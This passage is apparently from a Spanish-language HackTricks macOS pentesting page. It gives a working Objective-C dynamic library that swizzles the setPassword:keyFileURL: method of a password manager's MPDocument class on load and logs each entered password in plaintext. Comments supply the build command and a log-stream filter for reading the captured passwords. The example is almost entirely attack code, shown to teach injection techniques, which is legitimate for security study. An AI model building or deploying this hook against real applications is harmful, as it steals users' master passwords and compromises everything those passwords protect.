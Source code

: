 > [!CAUTION]
> Ten en cuenta que en versiones más recientes de macOS si **eliminaste la firma** del binario de la aplicación y se ejecutó previamente, macOS **ya no ejecutará la aplicación**.

#### Ejemplo de biblioteca
```objectivec
// gcc -dynamiclib -framework Foundation sniff.m -o sniff.dylib

// If you added env vars in the Info.plist don't forget to call lsregister as explained before

// Listen to the logs with something like:
// log stream --style syslog --predicate 'eventMessage CONTAINS[c] "Password"'

#include <Foundation/Foundation.h>
#import <objc/runtime.h>

// Here will be stored the real method (setPassword in this case) address
static IMP real_setPassword = NULL;

static BOOL custom_setPassword(id self, SEL _cmd, NSString* password, NSURL* keyFileURL)
{
// Function that will log the password and call the original setPassword(pass, file_path) method
NSLog(@"[+] Password is: %@", password);

// After logging the password call the original method so nothing breaks.
return ((BOOL (*)(id,SEL,NSString*, NSURL*))real_setPassword)(self, _cmd,  password, keyFileURL);
}

// Library constructor to execute
__attribute__((constructor))
static void customConstructor(int argc, const char **argv) {
// Get the real method address to not lose it
Class classMPDocument = NSClassFromString(@"MPDocument");
Method real_Method = class_getInstanceMethod(classMPDocument, @selector(setPassword:keyFileURL:));

// Make the original method setPassword call the fake implementation one
IMP fake_IMP = (IMP)custom_setPassword;
real_setPassword = method_setImplementation(real_Method, fake_IMP);
}
```
## Referencias

- [https://nshipster.com/method-swizzling/](https://nshipster.com/method-swizzling/)

{{#include ../../../banners/hacktricks-training.md}}
